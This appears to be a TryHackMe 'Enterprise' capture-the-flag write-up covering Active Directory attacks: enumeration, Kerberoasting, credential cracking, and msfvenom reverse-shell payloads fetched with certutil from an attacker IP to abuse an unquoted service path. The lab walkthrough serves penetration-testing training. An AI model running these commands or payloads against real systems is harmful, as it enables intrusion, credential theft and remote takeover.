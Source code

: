 ```yaml
---
title: Enterprise
heroImage: /src/assets/images/ent/cover.png
category: CTF
description: You scan the network and there's only the Domain Controller...
pubDate: 2024-11-01T23:00:00.000Z
tags:
  - Active Directory
  - THM
  - Tryhackme
---
```


This TryhackMe room that helps solidify Active Directory penetration testing.

Machine IP: 10.10.105.193

# Scanning

## Nmap

```
sudo nmap -sC -sV -O 10.10.105.193
```

![](../../assets/images/ent/nmap1.png)

We have port 53,88,135,389,445,464, 636 etc.

Also, rustscan to see if we have more ports running on the target

```
└─$ rustscan -a 10.10.105.193 --ulimit 5000 -- -A -sC -oN nmap_scan
```

![](../../assets/images/ent/nmap2.png)

We found an extra port 7790
![](../../assets/images/ent/rust2.png)

Also see the domain: "LAB.ENTERPRISE.THM", "LAB-DC.LAB.ENTERPRISE.THM", "ENTERPRISE.THM"

![](../../assets/images/ent/hosts.png)

Find potential users

```
kerbrute_linux_amd64 userenum --dc 10.10.105.193 -d LAB.ENTERPRISE.THM /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

![](../../assets/images/ent/kerb.png)
Save output in raw_users.txt, then we clean the file to maintain only users

```
cat raw_users.txt | cut -d " " -f 14 | cut -d "@" -f 1 | tee users.txt
cat raw_users.txt | cut -d " " -f 14 | tee user_domain.txt
```

![](../../assets/images/ent/users.png)
![](../../assets/images/ent/domain_user.png)

## DNS Enum

```
└─$ dig  @10.10.105.193 LAB.ENTERPRISE.THM
```

![](../../assets/images/ent/dns.png)

Since port 80 is open, let's visit it
![](../../assets/images/ent/88.png)

## Web enumeration

FILES:

```
export URL="http://lab.enterprise.thm/FUZZ"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
```

![](../../assets/images/ent/files.png)
robots.txt
![](../../assets/images/ent/robot.png)

DIRECTORIES

```
export URL="http://lab.enterprise.thm/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL
```

## SMB enumeration

```
smbclient -L \\\\10.10.105.193\\
smbclient \\\\10.10.105.193\\Docs
smbclient \\\\10.10.105.193\\Users
```

![](../../assets/images/ent/smb1.png)
![](../../assets/images/ent/smb2.png)
![](../../assets/images/ent/smb3.png)

## Enumerate port 7990

We get an Atlassian instance
![](../../assets/images/ent/7790.png)

FILES:

```
export URL="http://10.10.105.193:7790/FUZZ"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
```

![](../../assets/images/ent/7790_1.png)Projectone

DIRECTORIES

```
export URL="http://10.10.105.193:7990/FUZZ/"
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"
```

Recall that we have a list of potential users, we bruteforce using Burp Intruder. That did not work. Now, since we have an Atlassian page, we can deduce that we would have a github repo of Enterprise THM.

![](../../assets/images/ent/git.png)

We see this THM enterprise repo, looking closely, we see the About-Us repo. In the people tab, we see Nik-enterprise-dev .
![](../../assets/images/ent/git_page.png)
![](../../assets/images/ent/peep.png)

Digging deeper, we see a new powershell repo with hardcoded credentials (nik: ToastyBoi!)
![](../../assets/images/ent/ps.png)

Try credentials on SMB logins:

```
crackmapexec smb 10.10.137.231 -u nik -p 'ToastyBoi!'"
```

![](../../assets/images/ent/crack.png)

It works!! Let's see enumerate SMB with the newly discovered valid credentials:

```
smbclient -L 10.10.137.231 -U nik
```

![](../../assets/images/ent/smb4.png)

```
smbclient \\\\10.10.137.231\\ADMIN$ -U nik
```

We still get same access like we did initially. Let's circle back to the Actice Directory attack strategy.
![](../../assets/images/ent/ad.png)

This is from my note. So, we could check if the nik user is kerberoastable using GetSPN command:

```
impacket-GetUserSPNs -request LAB.ENTERPRISE.THM/nik -dc-ip 10.10.137.231
```

![](../../assets/images/ent/ker.png)
We see that the nik user is indeed kerberoastable and we can proceed to cracking the hash.

```
john --format=krb5tgs hahs --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../../assets/images/ent/john.png)

It means we can login via winrm and psexec using (bitbucket: littleredbucket), but they didn't work. I eventually tied xfreerdp.

```
xfreerdp /v:10.10.137.231 /u:bitbucket /p:littleredbucket /dynamic-resolution +clipboard
```

![](../../assets/images/ent/rdp.png)

The user flag is just on the desktop.

### Getting Root

First, we need to find a way to get a stable shell, preferabbly getting the shell on our attacker machine. This can be done by using msfvenom.

#### Create payload

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.67.255 LPORT=4443 -f exe -o shell.exe
```

Download payload on victim machine and execute

```
certutil.exe -urlcache -f http://10.11.67.255/shell.exe shell.exe
```

We have a shell on our kali machine:
![](../../assets/images/ent/stable.png)

Now we can run winpeas to find low-haniging fruits.

#### Convert shell to powershell

```
powershell -ep bypass
```

We notice an unquoted service path vulnerability we can take advantage of. The service is running zerotieroneservice.
![](../../assets/images/ent/unq.png)
Path: C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe.
We need to create a reverse shell payload, replace it with the zero tier one file.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.67.255 LPORT=4433 -f exe -o ZeroTier.exe
```

![](../../assets/images/ent/msf.png)

```
certutil.exe -urlcache -f http://10.11.67.255/ZeroTier.exe ZeroTier.exe
copy ZeroTier.exe "C:\Program Files (x86)\Zero Tier\Zero Tier One\"
Start-Service zerotieroneservice
```

...and we get nt authority
![](../../assets/images/ent/root.png)
